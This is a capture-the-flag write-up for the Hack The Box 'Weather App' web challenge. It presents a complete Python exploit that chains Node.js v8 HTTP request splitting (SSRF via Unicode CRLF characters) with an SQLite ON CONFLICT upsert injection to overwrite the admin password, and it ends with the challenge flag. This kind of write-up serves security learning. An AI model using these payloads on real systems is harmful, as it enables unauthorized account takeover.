

A pit of eternal darkness, a mindless journey of abeyance, this feels like a never-ending dream. I think I‚Äôm hallucinating with the memories of my past life, it‚Äôs a reflection of how thought I would have turned out if I had tried enough. A weatherman, I said! Someone my community would look up to, someone who is to be respected. I guess this is my way of telling you that I‚Äôve been waiting for someone to come and save me. This weather application is notorious for trapping the souls of ambitious weathermen like me. Please defeat the evil bruxa that‚Äôs operating this website and set me free! üßô‚Äç‚ôÄÔ∏è
With the challenge, we get a zip file containing challenge source code and Dockerfile to build the local version of the webapp.
I’m not going to use the docker instance. I’m going to use VSCode to run the app in node.js enviroment, where I can easily debug the app in runtime.
After extracting the zip file and running npm i command in the root directory of the app to pull relevant node packages, I changed the app port from 80 to a non standard port.
index.jsapp.listen(1337, () => console.log('Listening on port 1337'));
Then its just a matter of running the app in VSCode node.js enviroment and we have a local instance.
When we access the website we see this.
Yea üòÜ. There should be some weather info for my region but I checked and my city is not in the weather API therefore no data gets fetched. Furthermore we don‚Äôt see anything interesting on the website.
There are a couple of endpoint we can access.
GET /This is the root of the website. From the routes/index.js code we see we are just rendering an html file from views/index.html. This file is using static/js/main.js file to asynchronously call our endpoint /api/weather which in turn fetches data from remote weather API.
static/js/main.js...
getWeather();
setInterval(getWeather, 60 * 60 * 1000);
The page fetches new data every 1 hour.
GET /registerThis endpoint just fetches an HTML file views/register.html with a form where we can register.
POST /registerThis endpoint calls the register() method on database object that creates the user in the sqlite database. There are 2 caveats here.
routes/index.jsif (req.socket.remoteAddress.replace(/^.*:/, '') != '127.0.0.1') {
return res.status(401).end();
}
This check ensures that only requests from ip 127.0.0.1 are processed. If we test the app on our machine the /register would work since we are sending the request from localhost but the register won‚Äôt work on the remote server. We have to get around this üôÇ.
Another caveat is in register() method in database.js.
let query = `INSERT INTO users (username, password) VALUES ('${user}', '${pass}')`;
Here we are clearly INSERT-ing without any sanitization. This will be usefull üôÇ.
GET /loginThis endpoint just fetches an HTML file views/login.html with a form where we can login.
POST /loginWhen we try to login, this endpoint checks if we are an admin using isAdmin() method from database.js. If this is true we get the flag, if not we get yelled at. Keep in mind this doesn’t tell you if the user you are trying to login as even exists.
POST /api/weatherThis endpoint extracts data sent to it in the request body and essentially fetches weather data from remote address.
helpers/WeatherHelper.jslet weatherData = await HttpHelper.HttpGet(`http://${endpoint}/data/2.5/weather?q=${city},${country}&units=metric&appid=${apiKey}`);
Ideally we shouldn‚Äôt interact with this endpoint. But we will üòõ. Only static/js/main.js calls this endpoint using our public ip as endpoint + city and countryCode.
We have to get around 2 things.
We cannot register a user because of the 127.0.0.1 restriction so essentially we have to do SSRF to register a new user.
If we have an ability to register then we can craft a payload for an SQL injection. Ideally we would want to create a user with username admin so we can get the flag after login but there is an obstacle. When the app starts, an admin user is created automatically with a random password. We cannot create a new admin user due to the UNIQUE sql check and we cannot guess the password.
CREATE TABLE IF NOT EXISTS users (
id INTEGER NOT NULL PRIMARY KEY AUTOINCREMENT,
username VARCHAR(255) NOT NULL UNIQUE,
password VARCHAR(255) NOT NULL
);
INSERT INTO users (username, password) VALUES ('admin', '${ crypto.randomBytes(32).toString('hex') }');
Since we need to make the server do a request on our behalf. After looking around we can sort of craft a request using POST /api/weather which calls getWeather().
helpers/WeatherHelper.jslet weatherData = await HttpHelper.HttpGet(`http://${endpoint}/data/2.5/weather?q=${city},${country}&units=metric&appid=${apiKey}`);
We can influence which address gets called and some params but we are still implicitly sending a GET request and we need to do POST for /register.
The app is using an old node.js version v8.12.0. This version is vulnerable to request splitting. This technique allows us to smuggle our own crafted http request alongside the legitimate request made by the application. We are going to use this to smuggle our POST /register request.
With request splitting, we have to use the CRLF “character” in unicode to effectively create a new line in the http request. Unicode for CR is 000D and LF is 000A.
But since the principle with the request splitting is to confuse the server (webserver) not the client to smuggle requests, we cannot use these characters because we would smuggle the request preemtively (the client would be “confused”). We need chatacters that are “legit” while we are sending the request, but when it arrives to the server and the server is subsequently doing the request, only than it should interpret with the newlines.
For this we use the 010D which is a character č
and 010A which is a character Ċ
When we send a request with these characters, we aren’t confusing our client because we are just using weird “legit” unicode chars. But when these chars arrive at the node.js server, the unicode gets truncated from 010D to 0D (CR) and 010A to 0A (LF).
The reason for this is that when implicitly transcoding to latin1, the unicode value for each character is simply truncated to fit. So only then the server breaks and performs our smuggled request.
I’m going to use python to send requests and wireshark to sniff our http requests so we can see how they look. For starters we are going to send a simple request to contact our machine (127.0.0.1).
import requests
data = {"endpoint":"127.0.0.1:1337","city":"testing","country":"SK"}
requests.post('http://127.0.0.1:1337/api/weather', data=data)
The node.js server is going to issue back this request.
We can see we can influence the Host header and q parameter. From here we are going to start assembling our smuggled request. There is one issue here. We can see that we can only influence how the request looks like after the q parameter and Host header but we cannot change the request method because it comes before it. As said before we need to send a POST request not a GET. Let’s try the CRLF injection already.
import requests
nl = '\u010D\u010A'
space = '\u0120'
p = ''
p += space + 'HTTP/1.1'
p += nl
p += 'Host:' + space + '127.0.0.1' + nl
p += 'Connection:' + space + 'close' + nl
p += nl
p += 'POST' + space + '/register?1=2'
data = {"endpoint":"127.0.0.1:1337","city":"testing" + p,"country":"SK"}
requests.post('http://127.0.0.1:1337/api/weather', data=data)
The server request looks like this.
With this example request we are breaking out of the original request and we insert our own after the q parameter. We see we utilize the CRLF chars to create new lines and on top of that we use 0120 for spaces. We see we successfully created POST request after the original GET but the remaining data from original request are messing up our smuggled POST. We can solve this by smuggling another request to pad the remaining data from original request. For this we use the country variable.
import requests
nl = '\u010D\u010A'
space = '\u0120'
p = ''
p += space + 'HTTP/1.1'
p += nl
p += 'Host:' + space + '127.0.0.1' + nl
p += 'Connection:' + space + 'close' + nl
p += nl
p += 'POST' + space + '/register?1=2'
p1 = ''
p1 += space + 'HTTP/1.1'
p1 += nl
p1 += 'Host:' + space + '127.0.0.1' + nl
p1 += 'Connection:' + space + 'close' + nl
p1 += nl
p1 += 'our_post_body'
p1 += nl
p1 += nl
p1 += 'GET' + space + '/asdf'
data = {"endpoint":"127.0.0.1:1337","city":"testing" + p,"country":"SK" + p1}
requests.post('http://127.0.0.1:1337/api/weather', data=data)
The server request looks like this.
I marked individual section for better understanding.
We see we successfuly smuggle our POST request, which the server is going to perform to itself 127.0.0.1.
Right now we are able to register a new user but as told before we cannot register a new account with admin username. Upon inspection of the sqlite database file in sqlite database browser, we see there is an admin user with arbitrary password.
After looking at the code we can see an obvious flaw in SQL syntax.
database.jslet query = `INSERT INTO users (username, password) VALUES ('${user}', '${pass}')`;
The query is unsanitized and therefore is a subject to SQL injection. As far as I’ve been able to figure out, the database engine we are using in this app doesn’t allow to stack queries, meaning.
INSERT INTO users (username, password) VALUES ('new_user', 'sql_end'); DROP TABLE users -- ')
So this technique goes out of the window. After a bit of research I managed to look at sqlite INSERT syntax üôÇ.
This is a snippet of the INSERT. We see there is something called upsert that can optionaly be used after INSERT. Let’s look at the syntax.

We see there is an ON CONFLICT clause. This clause is triggered when the INSERT query is using a conflicting statement. When this is true, we can trigger an UPDATE which lets us update a record in database üòÜ. Example query.
INSERT INTO users (username, password) VALUES ('existing_user', 'leet') ON CONFLICT (username) DO UPDATE SET password='yeee' where username='existing_user' -- ')
The query is self explanatory.
Tying it all together, we are going to perform request splitting to smuggle a POST request on 127.0.0.1 as the destination Host. This allows us to register a new user. In the POST body we are going to use our payload to trigger an SQL injection using the upsert clause which lets us UPDATE the admins password.
We are going to add some headers to the POST request.
Content-Type: application/x-www-form-urlencoded
Content-Length: 125
Content length is very important. The number has to be a precise number of bytes we send in the POST body. When the number is incorrect, the webserver socket is going to close preemptively and won’t accept our smuggled request.
#!/usr/bin/python3
import requests
nl = '\u010D\u010A'
space = '\u0120'
p = ''
p += space + 'HTTP/1.1'
p += nl
p += 'Host:' + space + '127.0.0.1' + nl
p += 'Connection:' + space + 'close' + nl
p += nl
p += 'POST' + space + '/register?1=2'
p1 = ''
p1 += space + 'HTTP/1.1'
p1 += nl
p1 += 'Host:' + space + '127.0.0.1' + nl
p1 += 'Connection:' + space + 'close' + nl
p1 += 'Content-Type:' + space + 'application/x-www-form-urlencoded' + nl
p1 += 'Content-Length:' + space + '125' + nl
p1 += nl
# username=admin&password=k') ON CONFLICT(username) DO UPDATE SET password='yeee' where username='admin' --
p1 += 'username=admin&password=k%27%29+ON+CONFLICT%28username%29+DO+UPDATE+SET+password%3D%27yeee%27+where+username%3D%27admin%27+--'
p1 += nl
p1 += nl
p1 += 'GET' + space + '/asdf'
data = {"endpoint":"127.0.0.1","city":"testing" + p,"country":"SK" + p1}
requests.post('http://127.0.0.1:1337/api/weather', data=data)
This is what a final exploit looks like. We reuse the code mentioned earlier (I removed the port number from data variable) and we add our SQL injection payload to the POST body. I used + as a space in the payload. We can recheck the Content-Length header to see if it’s correct.
$ echo -n "username=admin&password=k%27%29+ON+CONFLICT%28username%29+DO+UPDATE+SET+password%3D%27yeee%27+where+username%3D%27admin%27+--" | wc -c
125
It’s correct. After executing we can check the database.
And the request
Success üôÇ. It works on local. Now we spawn our remote instance and change the address in exploit.
requests.post('http://<ip>:<port>/api/weather', data=data)
Execute and login with creds.
username: admin password: yeee
Done üôÇ.
HTB{w3lc0m3_t0_th3_p1p3_dr34m}